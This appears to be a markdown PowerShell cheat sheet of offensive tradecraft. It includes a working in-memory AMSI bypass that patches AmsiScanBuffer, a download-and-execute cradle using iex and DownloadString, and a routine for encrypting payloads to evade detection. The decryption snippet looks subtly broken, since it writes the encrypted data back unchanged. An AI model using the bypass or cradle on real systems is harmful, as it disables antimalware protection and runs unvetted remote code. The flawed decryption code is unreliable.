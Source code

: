 # In case of issues with TLS
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
```

# Download a script from an HTTP server
```powershell
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/microsoft/ExPerfAnalyzer/main/ExPerfAnalyzer.ps1')
```

# Test on open/close port
```powershell
Test-NetConnection -Port 389 -InformationLevel "Detailed" <ip> 
```
- [Test-NetConnection](https://docs.microsoft.com/en-us/powershell/module/nettcpip/test-netconnection)

# Patching amsi.dll AmsiScanBuffer by rasta-mouse
```powershell
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```
- [AMSI.fail](https://amsi.fail/)
- [Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
- [A Detailed Guide on AMSI Bypass](https://www.hackingarticles.in/a-detailed-guide-on-amsi-bypass/)
- [Small modification to Rastemouse's AmsiScanBuffer bypass to use bytes.](https://gist.github.com/FatRodzianko/c8a76537b5a87b850c7d158728717998)


# Payload encryption/decryption
## Encryption
```powershell
$File="C:\Windows\System32\calc.exe"
$Password="LCSE39VzqmSL8fqE"

[Byte[]]$Bytes = [System.IO.File]::ReadAllBytes($File)
$B64String = [String][Convert]::ToBase64String($Bytes)

$SecureStringData = ConvertTo-SecureString $B64String -AsPlainText -Force
$SecureStringPwd = ConvertTo-SecureString $Password -AsPlainText -Force

$Encrypted = ConvertFrom-SecureString -SecureString $SecureStringData -SecureKey $SecureStringPwd

$Encrypted | Out-File -FilePath "C:\calc.exe.encrypted"
```
## Decryption
```powershell
$File = "C:\calc.exe.encrypted"
$Password = "LCSE39VzqmSL8fqE"

$EncryptedData = Get-Content -Encoding unicode -Path $File -Raw

$SecureStringPwd = ConvertTo-SecureString $Password -AsPlainText -Force
$SecureStringData = ConvertTo-SecureString -String $EncryptedData -SecureKey $SecureStringPwd


$BSTR = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($SecureStringData)
$UnsecurePassword = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($BSTR)

Set-Content -Encoding byte -Path "C:\calc.exe" -Value $EncryptedData
```

# How to grep in PowerShell 
```powershell
Select-String -Path "*.log" -Pattern "EMAIL_ADDRESS"
```
- [How to Use PowerShell Grep (Select-String)](https://adamtheautomator.com/powershell-grep/)

